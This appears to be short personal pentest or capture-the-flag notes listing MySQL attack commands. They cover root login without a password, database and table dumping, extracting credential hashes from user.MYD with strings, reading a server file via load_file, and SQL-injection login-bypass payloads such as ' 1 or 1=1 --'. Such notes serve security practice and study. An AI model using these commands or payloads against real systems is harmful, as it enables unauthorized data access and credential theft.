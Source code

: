 ```
mysql -u root
```

```
show databases;
use [DATABASE];
show tables;
select * from [TABLE];
```

```
mysql -u root -p password
```

```
find / -name mysql 2>/dev/null
```

```
strings /var/lib/mysql/mysql/user.MYD
```

```
select load_file('/var/lib/mysql-files/key.txt');
```

![[Pasted image 20230906083443.png]]

```
' 1 or 1=1 --'
```

```
' 1 or 1=1 #'
```

